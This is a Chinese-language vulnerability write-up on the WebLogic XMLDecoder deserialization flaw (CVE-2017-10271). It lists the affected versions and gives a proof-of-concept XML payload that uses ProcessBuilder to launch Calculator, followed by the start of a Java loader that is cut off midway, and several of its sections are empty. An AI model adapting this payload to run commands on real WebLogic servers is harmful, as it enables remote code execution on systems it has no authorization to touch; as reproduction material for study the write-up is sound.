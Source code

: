 ```yaml
---
title: "（CVE-2017-10271）Weblogic XMLDecoder 反序列化漏洞"
id: zhfly3223
---
```


# （CVE-2017-10271）Weblogic XMLDecoder 反序列化漏洞

## 一、漏洞简介

## 二、漏洞影响

Oracle WebLogic Server10.3.6.0.0

Oracle WebLogic Server12.1.3.0.0

Oracle WebLogic Server12.2.1.1.0

Oracle WebLogic Server12.2.1.3.0

## 三、复现过程

### 漏洞分析

### poc

xml 文件

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_131" class="java.beans.XMLDecoder">
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
            </void>
        </array>
        <void method="start" />
    </object>
</java> 
```

读取xml文件，进行反序列化执行命令代码：

```
import java.io.BufferedInputStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;

public class xmlrce {

```
public static void main(String[] args) {
    // TODO Auto-generated method stub
    java.io.File file = new java.io.File("/Users/pirogue/IdeaProjects/weblogic/src/poc.xml");
